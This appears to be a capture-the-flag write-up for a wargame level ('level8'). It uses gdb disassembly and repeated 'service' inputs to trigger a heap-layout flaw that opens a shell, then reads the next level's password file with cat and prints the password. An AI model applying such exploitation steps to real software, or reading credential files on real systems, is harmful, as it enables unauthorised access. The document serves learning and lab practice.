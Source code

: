 We started the program and observed that it reads from `stdin` and prints `(nil), (nil)`:
```
./level8
(nil), (nil)
```
By disassembling the `main` function, we discovered some interesting strings:
```
(gdb) disass main
[...]
  0x08048581 <+29>:	mov    $0x8048810,%eax      # "auth"
[...]
 0x080485c1 <+93>:	mov    $0x8048819,%eax      # "service"
[...]
0x08048648 <+228>:	mov    $0x804881f,%eax      # "reset"
[...]
0x0804867e <+282>:	mov    $0x8048825,%eax      # "login"
[...]
```
We decided to try entering the discovered strings to see their effect on the program:
```
./level8
(nil), (nil)
auth
0x804a008, (nil)
service
0x804a008, 0x804a018
login
Password:
auth
0x804a028, 0x804a018
auth
0x804a038, 0x804a018
```
When we enter `auth` and `service`, the two addresses update by `0x10` from the last written address.

Using `gdb`, we looked further into the disassembly:
```
gdb> disass main
[...]
   0x08048625 <+193>:	cmp    eax,0x1e
[...]
```

A cmp instruction compares a value with `0x1e` (31 in decimal).

We deduct that making the difference between the addresses auth and service superior or equal to `0x20` (32 in decimal) may exploit the program.
```
./level8
(nil), (nil)
auth
0x804a008, (nil)
service
0x804a008, 0x804a018
service
0x804a008, 0x804a028
login
cat /home/user/level9/.pass
c542e581c5ba5162a85f767996e3247ed619ef6c6f7b76a59435545dc6259f8a
```
